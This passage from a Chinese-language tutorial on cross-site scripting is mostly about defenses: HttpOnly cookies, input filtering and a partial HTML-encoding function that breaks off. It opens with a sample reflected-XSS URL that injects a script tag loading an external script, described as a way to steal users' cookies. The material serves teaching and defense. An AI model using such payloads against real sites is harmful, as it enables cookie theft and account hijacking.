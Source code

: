 攻击者就可以拿到用户下的 cookie 了，将生成的链接诱导别的用户，就会形成大规模的 XSS 攻击

```js
http://localhost:3001/?name=%3Cscript+src%3D%22http%3A%2F%2Flocalhost%3A3002%2Ftest.js%22%3E%3C%2Fscript%3E
```

## XSS 防御

### HttpOnly

为了防止 XSS 攻击获取用户的 cookie 信息，可以直接通过服务端设置表头 Set-Cookie 设置 httpOnly 来禁止前端访问到 cookie，可以对每一项进行添加 httpOnly 属性。但是 HttpOnly 并不等于解决了 XSS 问题，它只是对 cookie 进行了保护

```js
res.setHeader("Set-Cookie", ["mycookie1=value1;HttpOnly", "mycookie2=value2"]);
```

这样对应的 cookie 项在前端就访问不到了

<a data-fancybox title="HttpOnly后的cookie" href="/计算机通用/HttpOnly后的cookie.png">![HttpOnly后的cookie](/计算机通用/HttpOnly后的cookie.png)</a>

### 输入检查

主要是通过 XSS Filter 将特殊字符进行过滤，客户端和服务端需要做同样的过滤，来提高安全性，客户端的输入检查主要是为了减小服务器的压力，而服务器的才是最后的“城墙”。比如禁止输入&，#等特殊字符，或者对应的表单还匹配正确的规则，如手机号输入只能是数字，并且只能输入 11 位，只能以 13，或 15 开头等

### 输出检查

输出检查是通过编码和转义的方式改变代码来防御 XSS 攻击的。

#### 1.对于 HTML 代码进行进行编码，将字符串转化为 HTMLEntities，遵守 ISO-8859-1 标准

#### 简单实现

> 更多更完善的 HTMLEncode 请参考网上资料

```js
function HTMLEncode(str) {
  let encoded = "";
  for (let i = 0; i < str.length; i++) {
    let charAtItem = str.charAt(i);
    encoded += encode(charAtItem);
  }
  return encoded;

  function encode(charAtItem) {
    var code = charAtItem.charCodeAt(0);
    switch (code) {
      case 34:
        return "&quot;";
        break; //"
      case 38:
        return "&amp;";
        break; //&
      case 39:
        return "&#x27;";
        break; //'
      case 47:
        return "&#x2F;";
```